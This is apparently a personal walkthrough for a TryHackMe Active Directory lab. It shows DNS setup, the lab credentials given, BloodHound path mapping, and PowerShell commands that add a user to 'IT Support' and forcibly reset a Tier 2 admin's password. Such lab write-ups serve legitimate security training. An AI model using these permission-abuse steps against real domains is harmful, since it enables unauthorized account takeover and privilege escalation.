 ```yaml
---
tags:
  - AD
  - THM
  - Pentesting
---
```

# Exploring Active Directory

```shell
cat /etc/resolv.conf
search za.tryhackme.com
nameserver 10.200.83.101
nameserver 9.9.9.9

# Shorten name resolution timeouts to 1 second
options timeout:1
# Only attempt to resolve a hostname 2 times
options attempts:2
```

Verify functionality: `dig thmdc.za.tryhackme.loc` or  `nslookup thmdc.za.tryhackme.loc`

<http://distributor.za.tryhackme.loc/creds>

```shell
export AD=za.tryhackme.loc
export USERNAME=jason.jackson
export PASSWORD=Racer2018
```

`ssh $AD\\$USERNAME@thmwrk1.$AD`

## Task 2

```shell
neo4j console
bloodhound --no-sandbox
```

Import provided Archive into Bloodhound.

Search for `jason.jacksonS@ZA.TRYHACKME.LOC` and track `TIER 2 ADMINS@ZA.TRYHACKME.LOC`

In the ssh session

```cmd
powershell.exe
```

```powershell
Add-ADGroupMember "IT Support" -Members "jason.jackson"
Get-ADGroupMember -Identity "IT Support" # verify jason belongs to support
Get-ADGroupMember -Identity "Tier 2 Admins" # identify Tier 2 Admins for PW reset
$Password = ConvertTo-SecureString "StrongPass123" -AsPlainText -Force
# this can take some time close/reconnect your session and/or
# gpupdate /force
Set-ADAccountPassword -Identity "t2_henry.harvey" -Reset -NewPassword $Password
```
